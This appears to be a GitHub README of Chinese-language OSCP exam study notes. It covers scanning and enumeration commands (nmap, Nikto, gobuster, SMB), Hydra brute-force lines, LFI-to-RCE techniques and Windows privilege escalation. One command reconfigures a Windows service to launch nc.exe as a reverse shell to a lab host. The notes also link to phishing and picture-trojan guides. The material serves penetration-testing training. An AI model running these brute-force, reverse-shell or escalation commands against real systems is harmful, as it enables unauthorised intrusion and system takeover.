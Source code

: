 # Learn OSCP

### EXP

1. [01_lfi_phpinfo_exp.py](exps/01_lfi_phpinfo_exp.py)  利用 *LFI* 和 *PHPINFO* 到 *getshell*，[资料来源](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf)



### **Hack Bar**

- *Remember turn off the automatic updates*

- *Post request not work as excepted*



### 识别操作系统位数

- *i686*  *i386* 代表 32 位操作系统
- *x86_64* 代表 64 位操作系统

### **在 64 位的 *kali* 上编译 32 位系统的exp**

- 安装特定依赖库

  ```bash
  $ apt-get install build-essential module-assistant gcc-multilib g++-multilib -y
  ```

- 编译

  ```bash
  $ gcc -m32 exp.c
  ```




### Reverse Shell & Spawning TTY & Upgrade it

[Reverse_Spawn_Upgrade_Shell](techniques/Reverse_Spawn_Upgrade_Shell)



*Nikto* 用于发现 *Web Server* 的默认配置、不安全的配置文件和程序。

```BASH
# nikto -h x.x.x.x  // Default 80
# nikto -h x.x.x.x -p 443,80  // multiple ports
# nikto -h https://url   // protocol, host
# nmap -p80 192.168.0.0/24 -oG - | nikto -h -   // scan multiple hosts
```

*Hydra* 爆破常见的服务

```bash
hydra -L user.txt  -P pass.txt 10.11.1.31 http-post-form "/login-off.asp:txtLoginID=^USER^&txtPassword=^PASS^&cmdSubmit=Login:F=ACCESS DENIED" -V


hydra -l usernmae  -P pass.txt 10.11.1.31 mssql -V # cracked 1433 ports windows
```



### LFI2RCE

原理：通过在服务器上写下代码，接着通过 *LFI* 利用该代码

- 通过包含 *Web Server* 或者 *ssh* 的日志
  - 用户有权限访问日志（大多数场景下是没有权限读取日志的）
  - 找到日志所在路径
    - *apache* */var/log/apache2/error.log*  */var/log/httpd-error.log*
    - *ssh /var/log/auth.log*
-  包含 *php://filter*  或 *php://input* 来实现
-  通过 *phpinfo.php* 和 *lfi* 来实现，[推荐资料](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf)

***tip***： 

- `%00` 截断仅适用于 *php* 版本低于5.3
- `shell_exec` 本质是 *linux* 中的 *backtick operator* ，函数返回执行结果
- `exec` 返回执行结果的最后一行



场景如果是 *CMS* 的话，除了尝试寻找 *upload* 功能，切记观察其他功能，不要一条路走到底。

### 





1. [LFI2RCE](https://www.exploit-db.com/papers/12992)

### Privilege Escalation for Windows


- [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html)
- [AccessChk v6.12](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) 用于确认 *windows* 用户权限
- [msfvenom-cheat-sheet](https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/)

- [Windows-pentest](https://github.com/ankh2054/windows-pentest) 包含有 *xp* 版本的 *accesschk*
- [Windows_Privesec](https://gist.github.com/sckalath/8dacd032b65404ef7411) 与  [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html) 的 *Roll up Your Sleeves* 比较像
- [OSCP-Windows-privilege-escalation](https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html) 与 第一篇文章相比，条理更清晰，内容更精简， 建议结合起来使用。

### Tips

##### SMB 信息收集

Server Message Block 协议对应的操作系统信息如下

- **SMB1** – Windows 2000, XP and Windows 2003
- **SMB2** – Windows Vista SP1 and Windows 2008
- **SMB2.1** – Windows 7 and Windows 2008 R2
- **SMB3** – Windows 8 and Windows 2012.

识别 SMB NetBIOS 服务（通常监听于 139 和 445 端口）

1. `nmap -v -p 139,445 -oG smb.txt x.x.x.1-254` 
2. `nbtscan -r  x.x.x.0/24`

3. enum4linux 该工具集成了 *smbclient*、*rpcclinet*、*net* 和 *nmblookup*

漏洞识别

```bash
root@kali:~# ls -l /usr/share/nmap/scripts/smb*

root@kali:~# nmap -v -p 139,445 --script smb-xxx x.x.x.x # 同时加载多个 NSE 脚本
```

[SMB-enumeration经典参考资料](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)



##### nmap 信息收集

```BASH
$ nmap -v -sV -sT --top-ports 10 --open x.x.x.x  # 快速扫描 top 10 端口

```



##### 路径信息收集

```shell
# gobuster dir -u http://X.X.X.X/ -w /mnt/hgfs/share/OSCP/SecLists/Discovery/Web-Content/common.txt   -s '200,204,301,302,307,403,500' -e  -t 50

# wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/big.txt --hc 404 http://10.11.1.22/FUZZ
```



###  查看当前用户身份的方式

```vbscript
# 无法执行 whoami 以及 echo %username% 的场景
# 解决方案一
echo 1>who.ami
dir /q

# 解决方案二
# 上传 kali 中的 /usr/share/windows-binaries/whoami.exe 到服务器上
```



### 文件上传的存放位置

`C:\RECYCLER ` 通常是可读写的目录，上传的 *exp* 建议放在这儿。



### Bash 创建特殊的文件

```bash
touch ./-filename.txt
touch -- -filename.txt
rm ./-filename.txt
rm -- --filename.txt
```

### 查找权限存在问题的的 services

*[accesschk](https://web.archive.org/web/20111111130246/http://live.sysinternals.com/accesschk.exe)* (*Windows XP*) 可用于判断 *servcies* 的权限，总是先执行 `/acceptula`。因为第一次执行该程序会弹窗，所以带入参数来确认弹窗。

```shell
# 建议每次从命令行执行accesschk时，都带上/accepteula

accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -ucqv SSDPSRV /accepteula
accesschk.exe -ucqv upnphost /accepteula



sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.120 2233 -e C:\WINDOWS\System32\cmd.exe"

sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost

C:\"Documents and Settings"\Administrator\Desktop\proof.txt

```



##### 提权方式

1. 配置存在问题的 *services*
2. [*Exploiting environment variables*](http://techblog.rosedu.org/exploiting-environment-variables.html)
3. [restricted-linux-shell-escaping-techniques/](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/) 

##### 空闲时间

[社工钓鱼](https://null-byte.wonderhowto.com/how-to/hide-virus-inside-fake-picture-0168183/)

[图片木马](http://gv7.me/articles/2017/picture-trojan-horse-making-method/)


# ChangeLog
- 20190714 tips
- 20190713 add 
- 20190711 update
- 20190710 init

